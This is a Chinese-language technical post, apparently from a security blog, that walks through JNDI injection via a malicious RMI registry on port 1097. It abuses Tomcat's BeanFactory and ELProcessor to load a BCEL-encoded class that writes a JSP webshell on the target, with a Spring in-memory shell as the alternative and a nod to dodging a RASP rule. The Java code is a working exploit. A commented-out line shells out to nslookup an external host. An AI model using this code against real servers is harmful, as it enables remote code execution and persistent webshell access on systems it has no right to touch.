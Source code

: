 ## RMI 加载BCEL

由于LDAP利用不了，参考这篇老外的翻译文章`https://xz.aliyun.com/t/3787`可知，在RMI限制利用情况下，我们依然可以通过EL表达式这条路径来执行命令。但为了便捷与持久化，这里将代码修改为BCEL加载任意类，方便我们执行JAVA代码。

这里整简单点，直接在目标机器上写jspx （rasp最近新增jspx拦截规则）

这里的RMI服务器比较危险，而且与服务器不是在一个TCP会话中完成交互的，这里仅作demo：

```java
package com;
import java.io.IOException;
import java.rmi.registry.*;
import com.needle.SpringControllerNeedle;
import com.needle.TomcatWriteJsp;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import org.apache.naming.ResourceRef;

/**
 * reference https://xz.aliyun.com/t/3787
 */
public class JndiServer {

    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
//        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance()" +
//                ".getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])']" +
//                "(['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()\")"));
        String el = getEl();
        System.out.println(el);
        ref.add(new StringRefAddr("x", getEl()));
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }

    private static String getEl() throws IOException {
        //Tomcat 写 jsp webshell
        byte[] needleData = Repository.lookupClass(TomcatWriteJsp.class).getBytes();
        //Spring 写 controller 内存马
        //byte[] needleData = Repository.lookupClass(SpringControllerNeedle.class).getBytes();
        String code = "$$BCEL$$"+ Utility.encode(needleData,true);
        return String.format("''.getClass().forName('%s" +
                "',true,''.getClass().forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance())",code);
    }
}
```
